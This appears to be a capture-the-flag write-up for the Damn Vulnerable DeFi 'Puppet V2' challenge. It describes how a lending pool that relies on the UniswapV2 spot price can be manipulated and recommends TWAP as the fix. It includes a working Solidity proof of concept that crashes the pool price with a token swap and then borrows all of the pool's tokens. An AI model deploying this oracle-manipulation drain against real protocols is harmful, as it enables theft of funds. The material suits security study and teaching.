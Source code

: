 ## Using UniswapV2 as an oracle without leveraging its Time-Weighted Average Price (TWAP) functionality leaves the system vulnerable to oracle manipulation


 The project migrated from UniswapV1 to UniswapV2 as a fix to a reported Oracle Manipulation vulnerability, but such vulnerability persists because it still relies on the spot price from a single block to determine asset ratios. This makes it easy to manipulate the price.

### recomended mitigations
- Implement the TWAP functionacility to fetch the pool ratios. Here's a [nice example by **RareSkills**](https://rareskills.io/post/twap-uniswap-v2?_gl=1*aoenpn*_ga*NTU5NjIyMzY4LjE3NTQ5NDkyNTA.*_ga_NJBVCDMM0W*czE3NTUwMDgzMzUkbzIkZzAkdDE3NTUwMDgzMzUkajYwJGwwJGgw#only-calculating-the-last-1-hour-twap-in-solidity). 

### PoC
Interacter contract:
```solidity
contract Interacter {
    DamnValuableToken token;
    WETH weth;
    IUniswapV2Pair uniswapV2Exchange;
    address player;

    constructor(address _token, address _uniswapV2Exchange, address _weth, address _player) {
        token = DamnValuableToken(payable(_token));
        weth = WETH(payable(_weth));
        uniswapV2Exchange = IUniswapV2Pair(_uniswapV2Exchange);
        player = _player;
    }

    function swap() public {
        uint uv2WethReserve = weth.balanceOf(address(uniswapV2Exchange)); 
        token.transfer(address(uniswapV2Exchange), token.balanceOf(address(this)));
        uniswapV2Exchange.swap(
            uv2WethReserve - 1e17, // substract a bit to keep K after fees
            0, 
            address(this), 
            ''
        );
        // returning the swaped eth to the player, because it will be needed to cover the borrow required underlaying
        weth.transfer(player, weth.balanceOf(address(this)));
    }
}
```

then in the testcase:
```solidity
    function test_puppetV2() public 
    checkSolvedByPlayer 
    {
        Interacter interacter = new Interacter(address(token), address(uniswapV2Exchange), address(weth), player);
        weth.deposit{ value: player.balance }();
        token.transfer(address(interacter), token.balanceOf(player));
        
        interacter.swap();
        
        weth.approve(address(lendingPool), weth.balanceOf(player));
        lendingPool.borrow(token.balanceOf(address(lendingPool)));

        token.transfer(recovery, token.balanceOf(player));
    }
```